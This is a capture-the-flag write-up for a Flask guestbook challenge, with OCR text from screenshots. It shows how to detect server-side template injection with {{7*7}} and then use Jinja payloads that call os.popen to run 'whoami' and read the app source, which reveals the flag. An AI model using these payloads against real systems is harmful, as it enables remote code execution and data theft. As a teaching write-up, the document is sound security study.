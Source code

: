 # Guestbook (Beta)
> You know what you do!

## About the Challenge
Given a website without the source code, where users can input desired names and the inputted names will be displayed on the website page.


[Image extracted text: secure
OxTelctf zerobyte me 40009/name-test
Guestbook
Your Name?
Welcomel
test
Our honorable visitor.]


In the example above, I tried inputting a name with the value "test" and the result appeared on the website.

## How to Solve?
This website is vulnerable to Server-Side Template Injection (SSTI), which can be demonstrated by inputting `{{7*7}}` in the name parameter, resulting in an output of 49.


[Image extracted text: Not secure
OxTelctfzerobyte me 40009/?name={{7*7}}
Guestbook
Your Name?
Welcomel
49
Our honorable visitor:]


Here, I will attempt further exploitation by performing Remote Code Execution (RCE) through leveraging SSTI. The payload I am using is:

```
{{lipsum.__globals__.os.popen('whoami').read()}}
```


[Image extracted text: Not secure
OxTe/ctfzerobyte me 40009/?name-{{lipsum:_
globals
OS.E
popen(%27whoami%2
Guestbook
Your Name?
Submit
Welcomel
noob
Our honorable visitor.]


It's apparent that the output on the website is "noob," indicating that we've successfully performed Remote Code Execution. The flag's location is within the source code of the Python application. To retrieve the flag, here's the payload I used:

```
{{lipsum.__globals__.os.popen('cat /app/main.py').read()}}
```


[Image extracted text: 9
C
Not secure
view-source OxTe/ctf zerobyte me 40009/?name-%7B%7Blipsum:
globals_
os popen%28%2
(div class=
card mt-5"
style="width: 18rem;
<div
class="
card
body
<h5
class=
card-title" Helcome
<lh5>
<!-- You might influence
its content indirectly
<h6 class="card-subtitle
mb-2
text
success font-monospace fw-bolder">#!/usr/bin/env python3
from flask import Flask,
request,
render_template_string
flag
8#39;ObyteCTF{Th3_MAn_who_Thlnks_h3_CAn_And_th3_M4n_who_Thlnks_h3_(Ant_4r3
BOth_Rlght}&#39;
app
Flask(
name
[04io.
60430]


```
0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}
```